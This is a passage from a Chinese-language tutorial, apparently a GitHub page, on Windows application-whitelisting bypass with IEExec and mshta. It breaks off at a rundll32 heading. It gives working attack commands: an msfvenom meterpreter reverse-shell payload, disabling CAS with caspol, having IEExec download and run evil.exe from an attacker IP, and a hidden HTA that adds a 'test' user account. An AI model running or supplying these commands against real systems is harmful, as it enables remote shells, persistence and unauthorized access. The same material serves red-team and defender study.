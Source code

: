 成功添加了一个test用户：

![](./image/20200413-9.png)



**10、IEExec**

IEexec.exe应用程序是.NET Framework附带程序，存在于多个系统白名单内。

生成Payload：

~~~
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.28.131 lport=4444 -f exe -o evil.exe
~~~

使用管理员身份打开cmd，分别运行下面两条命令。

~~~
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>caspol.exe -s off
C:\Windows\Microsoft.NET\Framework64\v2.0.50727>IEExec.exe http://192.168.28.131/evil.exe
~~~

![](./image/20200413-10.png)



**11、mshta**

mshta用于执行.hta文件，而hta是HTML Applocation 的缩写，也就是HTML应用程序。而hta中也支持VBS。所以我们可以利用hta来下载文件。

~~~
mshta http://192.168.28.128/run.hta
~~~

run.hta内容如下：

~~~
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user test password /add" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
~~~

![](./image/20200413-11.png)



**12、rundll32**
